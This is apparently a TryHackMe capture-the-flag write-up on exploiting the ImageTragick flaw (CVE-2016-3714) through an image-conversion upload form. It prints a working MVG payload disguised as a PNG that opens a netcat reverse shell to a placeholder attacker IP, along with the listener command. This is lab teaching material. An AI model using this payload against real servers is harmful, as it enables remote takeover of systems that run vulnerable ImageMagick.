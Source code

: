 The message displays after I connected to the server mentions me with ************************imagetragick************************ (”*this might help you to get started: https://imagetragick.com”*)

Meanwhile, the banner of the Challenge on TryHackMe also gives me more details about the ******CVE****** of ************************imagetragick************************ which is `CVE-2016-3714`

![Untitled](Magician%20images/Untitled%202.png)

Googling the ******CVE****** and searching for malicious payloads → I found this [folder](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20ImageMagick) contains payloads to exploit

# Vulnerabilities Assessment

Beside the text placed in the button upload on the web browser (”***UPLOAD AND COVERT FROM ******PNG****** TO JPG WITH THE POWER MAGIC!*”), I looked for the payload which could be executed with ******PNG****** file and I found this [one](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Picture%20ImageMagick/imagetragik1_payload_imageover_reverse_shell_netcat_fifo.png):

```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|mkfifo /tmp/gjdpez; nc <YOUR_IP> <YOUR_PORT> 0</tmp/gjdpez | /bin/sh >/tmp/gjdpez 2>&1; rm /tmp/gjdpez '
pop graphic-context
pop graphic-context
```

Embed the above payload to a new file with `.png` extension, start the ************************listener************************ on the local machine, then upload it to the server

```tsx
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

